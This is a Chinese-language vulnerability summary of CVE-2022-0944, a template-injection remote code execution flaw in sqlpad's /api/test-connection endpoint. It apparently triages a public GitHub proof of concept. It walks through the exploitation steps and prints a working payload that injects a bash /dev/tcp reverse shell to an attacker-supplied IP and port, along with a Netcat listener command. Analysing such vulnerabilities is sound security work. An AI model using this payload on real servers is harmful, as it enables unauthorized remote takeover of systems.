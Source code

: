 ## CVE-2022-0944-sqlpad-模板注入RCE

**漏洞编号:** CVE-2022-0944

**漏洞类型:** 模板注入导致远程代码执行

**影响应用:** sqlpad

**危害等级:** 高危，可能导致服务器完全控制

**影响版本:** < 6.10.1

**利用条件:** 需要高权限用户才能利用，需要目标应用开放api/test-connection接口

**POC 可用性:** 是

**投毒风险:** 1%

## 详情

CVE-2022-0944是sqlpad 6.10.1之前版本中存在的一个模板注入漏洞，位于/api/test-connection端点。具有足够权限的攻击者可以通过向该端点发送恶意构造的请求，在服务器上执行任意代码。漏洞利用方式是，通过POST请求向/api/test-connection发送包含恶意模板代码的JSON数据。该模板代码利用`process.mainModule.require('child_process').exec()`来执行系统命令，并通过反弹shell的方式获取服务器的控制权。提供的POC代码经过分析是有效的。投毒风险较低，因为该代码直接使用了反弹shell，没有发现隐藏的恶意代码，主要风险在于使用者可能会在未经授权的情况下使用该代码，但从代码本身来看，恶意投毒可能性低。

**利用方式：**

1.  **漏洞点：** `/api/test-connection` 接口的模板注入
2.  **前提条件：**
    *   目标SQLPad版本低于 6.10.1
    *   攻击者需要具备高权限访问`/api/test-connection`接口。
    *   目标服务器能够访问攻击者的Netcat监听端口。
3.  **利用步骤：**
    *   攻击者首先需要设置一个Netcat监听器（例如：`nc -lvnp 4444`）。
    *   攻击者使用提供的Python脚本，指定目标SQLPad的URL、攻击者的IP地址和监听端口。
    *   脚本构造包含恶意代码的JSON数据，并将其POST到`/api/test-connection`接口。
    *   恶意代码利用模板引擎执行系统命令，反弹shell到攻击者的监听器。
4.  **Payload分析：**
    *   `{{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/{args.attacker_ip}/{args.attacker_port} 0>&1"') }}`
    *   这段代码使用Node.js的`child_process.exec`来执行系统命令。
    *   `/bin/bash -c "bash -i >& /dev/tcp/{args.attacker_ip}/{args.attacker_port} 0>&1"` 是一个反弹shell命令，它会连接到攻击者的IP地址和端口，并将shell重定向到该连接。

**项目地址:** [0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944)

**漏洞详情:** [CVE-2022-0944](https://nvd.nist.gov/vuln/detail/CVE-2022-0944)